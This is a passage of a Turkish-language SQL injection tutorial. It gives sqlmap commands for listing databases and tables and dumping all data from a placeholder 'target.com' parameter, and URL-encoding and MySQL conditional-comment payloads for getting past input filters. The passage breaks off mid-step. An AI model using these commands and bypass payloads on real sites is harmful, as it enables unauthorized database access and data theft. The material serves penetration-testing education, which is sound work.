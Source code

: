 3️⃣ SQLmap ile GET SQLi Testi
Eğer GET parametresi saldırıya açık görünüyorsa, SQLmap kullanılarak otomatik test yapılabilir.
```sql
bash
sqlmap -u "https://target.com/product.php?id=5" --dbs
✅ --dbs: Veritabanı isimlerini listeler.
```
📌 Eğer daha fazla detay istenirse:
```sql
bash
sqlmap -u "https://target.com/product.php?id=5" --tables
✅ --tables: Veritabanındaki tabloları gösterir.
```
📌 Eğer şifreleri çekmek isterseniz:
```sql
bash
sqlmap -u "https://target.com/product.php?id=5" --dump
✅ --dump: Tüm verileri çeker.

```
4️⃣ GET SQLi Bypass Teknikleri
Bazı güvenlik önlemlerini aşmak için şu teknikler kullanılabilir:
🔹 1. URL Encoding (Filtre Aşma)
Eğer doğrudan tırnaklar (') engelleniyorsa, URL encoding kullanılabilir:
```sql
plaintext
https://target.com/product.php?id=5%27%20OR%201=1--

```
📌 %27, ' karakterinin URL kodlanmış halidir.
🔹 2. SQL Komutlarını Değiştirme Bazı filtreleme sistemleri standart SQL kelimelerini engelleyebilir. Bunu aşmak için:
```sql
plaintext
https://target.com/product.php?id=5 /*!50000 UNION */ SELECT 1,2,3--

```
📌 /*!50000 MySQL’in koşullu yorum özelliğini kullanır ve filtreleri atlatabilir.

📌 SONUÇ
✅ GET SQLi Açığını Test Etme
id parametresine ' ekleyerek hata mesajı olup olmadığını kontrol et.
AND 1=1 ve AND 1=2 sorgularını kullanarak Boolean tabanlı test yap.
UNION SELECT ile veri sızdırılıp sızdırılamadığını kontrol et.
```sql
✅ SQLmap ile Otomatik Test
4. sqlmap -u "https://target.com/product.php?id=5" --dbs komutu ile veritabanı yapılarını keşfet.
```
✅ Filtreleri Aşma Teknikleri
5. URL encoding, SQL yorumları ve özel karakter kaçırma yöntemlerini dene.
_______________________________________________________________________________________
📌 SQLmap ile Veritabanındaki Tüm Verileri Görme
1️⃣ Öncelikle veritabanı adlarını listele:
```sql
bash
sqlmap -u "https://target.com/product.php?id=5" --dbs
```
✅ Bu komut, mevcut veritabanı isimlerini görüntüler.
2️⃣ Bir veritabanı seç ve tabloları listele:
```sql
bash
sqlmap -u "https://target.com/product.php?id=5" -D target_db --tables
```
✅ target_db yerine, önceki adımda bulunan veritabanı adını yaz.
3️⃣ Bir tablodaki sütunları listele:
```sql
bash
```